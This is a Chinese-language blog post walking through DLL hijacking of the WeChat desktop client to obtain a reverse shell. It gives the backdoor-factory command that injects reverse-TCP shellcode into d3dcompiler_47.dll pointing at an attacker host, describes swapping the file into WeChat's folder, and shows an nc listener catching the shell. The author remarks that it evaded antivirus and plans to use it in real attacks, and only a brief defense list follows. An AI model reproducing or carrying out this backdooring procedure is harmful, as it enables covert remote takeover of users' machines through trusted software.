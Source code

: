 ```yaml
---
layout: post
title: "利用微信进行 DLL 劫持 && 反弹shell"
subtitle: "利用微信进行 DLL 劫持 && 反弹shell"
date: 2019-06-17
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

## 0x1 前言

​		PS：看到的一篇标题为《看我如何利用微信反弹shell》的文章觉得挺有意思的，就去复现了一波，可能是微信版本的问题，并没有加载他文章中微信下的 dbghelp.dll，而是劫持了d3dcompiler_47.dll 文件，从而反弹shell 。



用户机器：

​		Windos 7 企业版

​		IP 192.168.1.101

​		微信版本：2.6.8.51



攻击机：

​		MacBook Pro 本地

​		IP 192.168.1.100		



##### 需要的工具：

​		 [劫持工具(backdoor-factory)](https://github.com/secretsquirrel/the-backdoor-factory)

​		 增强型任务管理器 (ProcessExplorer)

​		 微信 2.6.8.51

​		![version](/static/img/version.png)

## 0x2 查看被调用的dll文件

安装好微信打开 ProcessExplorer 查看微信调用的所有文件，如下：

![dll_new](/static/img/dll_new.png)

![dll_dir](/static/img/dll_dir.png)



## 0x3 制作劫持的dll文件

利用 backdoor-factory 制作反弹shell 的 dll 文件，向原有的dll 中插入一段shellcode

执行命令：

```bash
python backdoor.py -f d3dcompiler_47.dll -s reverse_shell_tcp_inline -P 6666 -H 192.168.1.100
```

![2](/Users/liuxueshuo/Desktop/2.png)

生成的文件在当前目录的backdoored 下面

![backdoored](/static/img/backdoored.png)



将 backdoored 下面的 d3dcompiler_47.dll 替换掉 WeChat 下面原有的 d3dcompiler_47.dll 文件

![qqqq](/static/img/qqqq.png)



这样微信在启动的时候就可以调用我们插入shellcode 的dll了

## 0x4 利用

攻击机使用NC 监听 6666 端口

```bash
nc -lvv 6666    
```

Windows 7 运行微信

![fantanshell_ok](/Users/liuxueshuo/Desktop/fantanshell_ok.png)

可以看到 微信在运行时多了两个cmd 进程，成功反弹shell到攻击机。



## 0x5 总结

​		这种dll 攻击感觉还是蛮好玩的，因为我在windows 7 下是有火绒杀软的，也就是免杀，接下来就是想怎么将这种攻击运用到实际攻击场景中。



##### 防御方法：

软件要通过官方渠道下载安装

定时检查机器是否存在可疑的dll文件

查看机器是否开启了可疑地端口

![netstat](/static/img/netstat.png)



参考：https://mp.weixin.qq.com/s/6h2eYnbVnjmeGACUjgx1nw

参考：https://www.freebuf.com/articles/78807.html